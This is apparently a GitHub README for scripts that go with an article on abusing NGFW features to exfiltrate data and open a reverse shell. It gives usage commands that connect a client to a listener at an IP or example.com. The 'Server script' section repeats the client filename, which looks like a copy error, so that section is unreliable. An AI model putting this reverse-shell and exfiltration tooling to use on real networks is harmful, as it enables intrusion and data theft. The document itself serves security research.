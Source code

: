 # When features turn into nightmares
## How threat actors can exploit NGFW features to exfiltrate data and establish a reverse shell

To run the experiments described in this [article](https://medium.com/@pllgiulio96/when-features-turn-into-nightmares-how-threat-actors-can-exploit-ngfw-features-to-exfiltrate-data-125e2f33372b) you can use the script available in this repository.
You must run firstly the script on the server, that opens a listener, and then the one on the client that connects to it.


## Server script

Usage:
>	python shell-client.py -s \<SERVER\> [-p \<PORT\> -b \<BUFFER_SIZE\>]

Examples:
>	python shell-client.py -s 192.168.100.54 -p 44444 -b 50
  
>	python shell-client.py -s example.com -p 44444 -b 50

Default values:
>	-p 33333 (must be the same of server)
  
>	-b 100 (must be the same of server)



## Client script

Usage:
>	python shell-client.py -s \<SERVER\> [-p \<PORT\> -b \<BUFFER_SIZE\>]

Example:
>	python shell-client.py -s 192.168.100.54 -p 44444 -b 50
  
>	python shell-client.py -s example.com -p 44444 -b 50

Default values:
>	-p 33333 (must be the same of server)

>	-b 100 (must be the same of server)






